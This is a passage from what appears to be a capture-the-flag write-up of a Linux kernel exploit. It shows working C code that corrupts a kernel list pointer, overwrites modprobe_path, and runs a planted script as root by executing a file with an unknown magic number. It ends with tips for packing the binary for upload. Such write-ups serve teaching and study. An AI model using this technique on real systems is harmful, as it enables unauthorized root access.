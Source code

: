 ```
0xffffffff92a51b00│+0x0100: 0xffffffff92a51b00  →  [loop detected]
0xffffffff92a51b08│+0x0108: 0xffffffff92a51b00  →  0xffffffff92a51b00  →  [loop
detected]
0xffffffff92a51b10│+0x0110: 0x0000000000000032 ("2"?)
```

So we have to make a backup of this memory area, then overwrite `modprobe_path`
and rewrite the backup.

```c
memset(buf, 'A', BUF_SIZE);
new_item(buf, 0x100); // B -> A


// B.next = modprobe_path
memset(buf, 0, BUF_SIZE);
*(unsigned long long *)(buf + 0x108) = modprobe_path;
edit_item(0, buf, 0x110);

// leak [modprobe_path; modprobe_path + 0x108] to prevent panic
memset(bak, 0, sizeof(bak));
n = read(fd, bak, 0x110 + 0x108);
if (-1 == n) {
    err("read");
}
//hex_view(bak, n);

// overwrite modprobe_path
strncpy(buf, "/home/user/pld", BUF_SIZE);
edit_item(1, buf, strlen(buf) + 1);

// B.next = modprobe_path + 0x20
memset(buf, 0, BUF_SIZE);
*(unsigned long long *)(buf + 0x108) = modprobe_path + 0x20;
edit_item(0, buf, 0x110);

// prevent panic
memmove(bak, bak+0x110+0x20, 0x108-0x20);
edit_item(1, bak, 0x108-0x20);
```

We just need to create the script `/home/user/pld` that will be executed with
the root user and to execute a file containing an unknown magic number to
trigger to execution of `/home/user/pld` :

```c
puts("[+] getting a shell :)");
system("echo '#!/bin/sh\nchmod -R 777 /passwd' > /home/user/pld");
system("echo -e '\xef\xbe\xad\xde' > /home/user/x");
system("chmod 777 /home/user/pld /home/user/x");
system("/home/user/x");
```

To upload the exploit binary on the remote server and minimize it we can compile
it using `musl-gcc`, then `gzip` and `base64` it.

---
